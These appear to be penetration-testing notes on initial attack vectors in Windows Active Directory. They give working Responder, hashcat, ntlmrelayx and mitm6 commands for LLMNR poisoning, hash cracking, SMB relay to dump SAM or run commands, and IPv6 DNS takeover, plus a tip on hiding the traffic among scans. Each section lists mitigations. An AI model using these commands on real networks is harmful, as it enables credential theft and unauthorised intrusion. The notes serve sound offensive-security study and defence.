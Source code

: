 # AD: Initial Attack Vectors
Internal Notes

### LLMNR Poison
- Something like Responder for tooling to perform these attacks.
- MITM based
- Maybe worth running Responder at the same time as Nessus/Nexpose/VAS scans, to obfuscate & utilize traffic that is common.
  - `responder -I {interface} -dwPv`
- Captured Hashes can crack
  - `hashcat -m 5600 crack.txt /usr/share/wordlists/fasttrack.txt` 

#### Remediation
- GPO: DNS Client: Multicast Name Resolution(Botom of List)
- NAC
- Password Policy
___  
### SMB Attacks
- Responder (Relay) - Ensure HTTP and SMB servers off. Should have an Admin Account to be worth it
  - `nmap --script=smb2-security-mode.nse -p445 10.0.0.25`
  - `ntlmrelayx.py `
    - Dumps SAM
  - `ntlmrelayx.py -i`: Interactive(Establish Bind Shell on local address)
    - `nc 127.0.0.1:11000` - `help` list of options that can be performed through the smb client shell
  - `ntlmrelayx.py -c "Bad Stuff command"` - Remote Code Execution through SMB relay 

#### Mitigations
- SMB Signing
- Disable NTLM
- Account tiers
- Local Admin Restrictions

---
### IPv6
- Relay(DNS Takeover) - **MITM6**  (Be careful!) - Short runs
  - `ntlmrelayx.py -6 -t ldaps://{target/DC} -wh  fakewpad.{domain} -l lootXoR`
  - `mitm6 -d {domain}`

#### Mitigations
- Disable IPv6
  - DHCPv6-In (Block)
  - ICMPv6-In (Block)
  - DHCPv6-Out (Block) 
- LDAP Signing
- Disable WPAD (WinHttpAutoProxySVC GPO)
- Prevent Delegation/Impersonation
